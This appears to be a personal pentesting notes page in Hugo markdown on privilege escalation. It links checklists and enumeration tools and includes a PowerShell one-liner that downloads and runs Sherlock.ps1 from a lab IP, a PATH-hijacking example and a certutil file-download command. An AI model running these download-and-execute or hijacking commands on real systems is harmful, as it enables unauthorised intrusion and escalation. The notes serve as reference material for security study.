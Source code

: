 ```yaml
---
### The title for the content.
title: "priv esc"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "priv esc"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description: "priv esc description."
### The datetime assigned to this page.
date: 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "priv-esc"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight: 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## priv esc

| Checklists                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)                                                     |
| [hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)                                         |
| [fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html)                                                               |
| [PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)                                                                                      |
| [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) |

| Scripts                                                                                                  |                                                                                                                                                                                                                              |
| -------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) |
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)                        |
| MSF - local_exploit_suggester                                                                            |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)      |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)              |
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock)                                           | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` |

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## GTFO/LOLBins

[GTFOBins](https://gtfobins.github.io/)

### Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
